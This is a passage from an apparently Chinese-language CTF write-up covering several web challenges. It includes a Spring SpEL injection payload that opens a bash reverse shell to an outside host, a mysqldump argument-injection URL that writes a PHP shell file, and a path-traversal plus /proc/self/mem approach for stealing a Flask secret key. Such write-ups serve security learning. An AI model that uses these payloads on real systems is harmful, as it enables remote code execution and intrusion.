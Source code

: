```json
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'bash', '-c', 'bash -i >& /dev/tcp/vps-ip/65444 0>&1'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```

![image-20230528124142926](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305281241967.png)

![image-20230528123723566](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305281237618.png)

## dumpit

参考文章: [https://mariadb.com/kb/en/mariadb-dump/](https://mariadb.com/kb/en/mariadb-dump/)

猜测 `?db=&table_2_dump=` 调用的是 mysqldump 之类的命令, 存在命令注入, 但是过滤了常规的一些字符

测试发现 mysqldump 会将 database 的名称输出 (即使不存在), 翻阅文档得知可以通过 `--result-file` 参数指定生成的文件名

payload

```
http://eci-2zej20xezk9iber18vi8.cloudeci1.ichunqiu.com:8888/?db=%22%3C?=phpinfo()?%3E%22%20--result-file%20shell.php&table_2_dump=flag1
```

flag 在环境变量里面

![image-20230528144046766](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305281440809.png)

## reading

有个任意文件读取, 但是目录穿越挺脑洞的, 猜了一会发现是把 `..` 替换成 `.`, 用 `...` 就可以穿越了

然后 /flag 读不到, 但是有 /readflag 命令, 很明显是要 rce

然后读 app.py 发现有 secret key 和 key (时间戳 md5 加密), 还有 /flag 路由, 里面会验证 session key 加密过后的内容是否与源码开头的 key 相同, 之后执行 /readflag 命令

因为任意文件读取可以控制 page num 和 page size, 也就是 offset 和 length, 一个很经典的思路就是利用任意文件读取读 /proc/self/maps 获取 python 相关程序的地址然后读 /proc/self/mem 拿到堆里面的 secret key 和 key, 伪造 session 最后访问 /flag 路由

但是后来没啥时间就懒得看了 (

补一下 app.py

```python
# -*- coding:utf8 -*-
import os
import math
import time
import hashlib
from flask import Flask, request, session, render_template, send_file
from datetime import datetime
app = Flask(__name__)
app.secret_key = hashlib.md5(os.urandom(32)).hexdigest()
key = hashlib.md5(str(time.time_ns()).encode()).hexdigest()

books = os.listdir('./books')
books.sort(reverse=True)
```